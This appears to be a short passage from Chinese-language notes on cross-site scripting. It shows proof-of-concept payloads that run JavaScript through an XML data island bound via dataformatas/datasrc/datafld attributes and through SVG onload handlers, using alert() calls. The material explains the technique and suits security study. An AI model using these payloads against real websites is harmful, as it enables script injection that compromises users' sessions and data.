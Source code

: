 同样HTML调用XML文件执行javascript：

```
<html>
<body>
<xml id="xss" src="test.xml"></xml>
<label dataformatas=html datasrc=#xss datafld=payload></label> </body>
</html>
<?xml version="1.0"?>
<x>
<payload>
<![CDATA[<img src=x onerror=alert(domain)>]]> </payload>
</x>

```

dataformatas定义了获取到的数据以什么格式解析（HTML或text），datasrc指绑定的id，datafld指使用哪一段数据。

svg调用javascript（新版本的几个浏览器支持）：

```
<svg xmlns="http://www.w3.org/2000/svg">
<g onload="alert(1)"></g>
</svg>
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(2)"></svg>
```